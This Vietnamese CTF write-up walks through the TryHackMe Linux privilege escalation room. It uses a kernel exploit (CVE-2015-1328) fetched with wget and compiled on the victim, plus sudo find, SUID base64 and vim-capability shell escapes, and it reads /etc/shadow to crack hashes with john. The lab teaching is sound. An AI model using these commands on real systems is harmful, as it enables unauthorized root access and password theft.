

+++
title = "TryHackMe: Linux Privilege Escalation"
date = 2025-01-28
description = "Walkthrough room Linux Privilege Escalation trên TryHackMe — Kernel exploit, Sudo, SUID, Capabilities."
[taxonomies]
tags = ["ctf", "tryhackme", "privilege-escalation", "suid", "sudo", "kernel"]
[extra]
toc = true
+++

Walkthrough room **Linux Privilege Escalation** trên TryHackMe — bao gồm **kernel exploit**, **Sudo**, **SUID**, và **Capabilities**.

<!-- more -->

Link: [https://tryhackme.com/room/linprivesc](https://tryhackme.com/room/linprivesc)

> **Lưu ý**: Mỗi phần là machine khác nhau, hoàn thành task thì stop machine cũ và start machine mới.

## Kernel Exploit

```bash
$ uname -a
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

CVE-2015-1328 PoC: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Trên máy attacker:

- Kết nối THM OpenVPN
- Copy PoC → `poc.c`
- Chạy `python3 -m http.server 8000`

Trên máy victim:

```bash
$ cd /tmp
$ wget http://10.4.126.108/poc.c
$ gcc poc.c -o poc
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ ./poc
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```

## Sudo

Dùng `sudo -l`:

```bash
$ sudo -l
User karen may run the following commands:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

Dùng find theo [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo):

```bash
$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root! 🎉 `flag2.txt` nằm ở `/home/ubuntu/flag2.txt`

Với nmap: xem [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/#sudo). Có thể đọc `/etc/shadow` để tìm hash.

## SUID

> SUID (Set-user Identification) cho phép file thực thi với quyền của file owner.

Tìm SUID files:

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
...
1722     44 -rwsr-xr-x   1 root     root        43352 Sep  5  2019 /usr/bin/base64
...
```

`base64` có trong GTFOBins:



Dùng trick này để đọc:

1. `/etc/shadow` (tìm username lạ)
2. `/etc/passwd`
3. `/home/ubuntu/flag3.txt`

Crack password với john:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
john --wordlist=/path/to/rockyou_wordlist.txt passwords.txt
```

## Capabilities

```bash
$ getcap -r / 2>/dev/null
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Tìm được `vim` binary trong karen user dir! Dùng [GTFOBins vim capabilities](https://gtfobins.github.io/gtfobins/vim/#capabilities):

```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
